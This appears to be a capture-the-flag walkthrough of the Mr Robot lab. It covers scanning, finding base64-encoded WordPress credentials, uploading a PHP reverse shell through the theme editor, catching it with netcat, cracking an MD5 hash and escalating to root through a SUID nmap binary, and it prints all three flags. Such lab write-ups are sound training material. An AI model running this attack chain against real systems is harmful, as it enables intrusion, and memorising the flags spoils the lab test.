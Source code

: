 
+ **Did an nmap scan on the ip for services and open ports**

    `` nmap -sV -sT -sC  http://10.10.71.91 ``
    
+ **Found an http and https server**
    ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-02 14:10 EET
    Nmap scan report for 10.10.71.91
    Host is up (0.078s latency).
    Not shown: 997 filtered ports
    PORT    STATE  SERVICE  VERSION
    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-server-header: Apache
    |_http-title: Site doesn't have a title (text/html).
    443/tcp open   ssl/http Apache httpd
    |_http-server-header: Apache
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 46.25 seconds

    ```

+ **Let's dirsearch the website**
  
    `` ./dirsearch.py -u http://10.10.71.91/ -e html,php,js``

+ **Checked robots.txt and found something interesting ...**
    ``` 
    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    ```

+ **Let's check those files**
  
    ``http://10.10.71.91/key-1-of-3.txt``
    ```
    073403c8a58a1f80d943455fb30724b9
    ```
    **bingo**

    The other file seems to be some kind of long password list.

+ **After trying more directories that we've found with no succes,we got to license.txt and found this**

    ```
    what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
    ```
    It's the first thing we see,but if we scroll down a little...

    ```
    do you want a password or something?
    ZWxsaW90OkVSMjgtMDY1Mgo=
    ```
    seems like we got something,it's obviously base64,so let's decode it

    ```bash 
    notarch@notarch-pc: ~/dirsearch$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
    elliot:ER28-0652
    ```

    Looks like we got a username and password

+ **On our dirsearch,something stands out**
    
    ``[14:24:10] 200 -    3KB - /wp-login/``

    we check the page,and we log in with out username and password
    
+ **After some tiring research,I found out the editor in the wordpress site for the webpages and we changed the 404.php to a reverse-php-shell.php and uploaded it**
    
    Then we simply listen to the port we selected:

    ``nc -lvnp 1234``

    and **BOOM**,we got a shell

    ```bash
    notarch@notarch-pc: ~/Downloads$ nc -lvnp 1234
    Connection from 10.10.78.203:52337
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
    14:33:24 up 7 min,  0 users,  load average: 0.16, 1.33, 0.90
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    /bin/sh: 0: can't access tty; jo bcontrol turned off
    $ 

    ```
  We navigate to ``/home/robot`` and we see 2 files that seem interesting:

    ```
    $ ls -la
    total 16
    drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
    drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
    -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
    -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

    ```

    and we got this: ``cat: key-2-of-3.txt: Permission denied``
    
    and this

    ```
    $ cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b
    ```

    We crack the hash on [crack station.](https://crackstation.net/)
    and we get this <span style="background-color: #1e2227">abcdefghijklmnopqrstuvwxyz</span>

    Unfortunately we don't have a TTY,so we spawn one:``    python -c 'import pty; pty.spawn("/bin/bash")'``

    We change the user
    ```bash
    daemon@linux:/home/robot$ su robot
    su robot
    Password: abcdefghijklmnopqrstuvwxyz

    robot@linux:~$ cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    ```


+ **As experience dictates,we list all the files that have the SUID bit set:**

  ``find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls {} \; 2>/dev/null``

  We find something interesting

  ```
    /usr/bin/dotlockfile
    /usr/bin/sudo
    /usr/bin/ssh-agent
    /usr/bin/wall
    /usr/local/bin/nmap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
  ```

  nmap shouldn't be here ...

  ```
    $ ls -l /usr/local/bin/nmap
    -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
  ```

  After some digging around on how to exploit this,I got to nmap's interactive mode:
  ```
    /usr/local/bin/nmap --interactive
  ```

  ...which leads to a privilege escalation

  ```
    nmap> !sh
    !sh
    # whoami
    whoami
    root
  ```

  **BINGO**

  ```
    # cd /root
    cd /root
    # ls
    ls
    firstboot_done  key-3-of-3.txt
    # cat key-3-of-3.txt
    cat key-3-of-3.txt
    04787ddef27c3dee1ee161b21670b4e4
  ```